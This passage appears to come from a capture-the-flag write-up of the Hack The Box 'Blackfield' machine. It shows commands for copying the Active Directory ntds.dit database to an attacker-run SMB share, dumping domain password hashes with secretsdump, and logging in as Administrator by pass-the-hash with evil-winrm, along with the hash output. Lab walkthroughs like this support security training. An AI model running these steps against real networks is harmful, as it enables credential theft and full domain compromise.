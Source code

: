 
beauty!

Now we can grab this file from Z: as we just exposed it...

```
cd Z:\Windows\NTDS
ls
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         9/7/2025   7:52 PM           8192 edb.chk
-a----         9/9/2025   1:30 AM       10485760 edb.log
-a----        2/23/2020   9:41 AM       10485760 edb00004.log
-a----        2/23/2020   9:41 AM       10485760 edb00005.log
-a----        2/23/2020   3:13 AM       10485760 edbres00001.jrs
-a----        2/23/2020   3:13 AM       10485760 edbres00002.jrs
-a----        2/23/2020   9:41 AM       10485760 edbtmp.log
-a----         9/7/2025   7:52 PM       18874368 ntds.dit
-a----         9/7/2025   7:52 PM          16384 ntds.jfm
-a----         9/7/2025   7:52 PM         434176 temp.edb
```

grab that ntds.dit file and download from Z:\... OR:
```
sudo impacket-smbserver share ~/htb/blackfield -username wiz -password wiz -smb2support
```

then on windows target:
```
net use \\10.10.14.4\share /user:wiz wiz
```

```
Copy-Item 'Z:\Windows\NTDS\ntds.dit' '\\10.10.14.4\share\ntds.dit'
```

though permission is denied... oh well least got a smb creation and mounting example here now :D

we can use the SYSTEM.save from earlier and run:
```
impacket-secretsdump -ntds ntds.dit -system SYSTEM.save LOCAL
```
```
...
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:65557f7ad03ac340a7eb12b9462f80d6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:c95ac94a048e7c29ac4b4320d7c9d3b5:::
...
```

now lets pth and get the admin pwned:
```
evil-winrm -i 10.10.10.192 -u Administrator -H 184fb5e5178480be64824d4cd53b99ee
...
cat ../Desktop/root.txt
4375a629c7c67c8e*****************
```
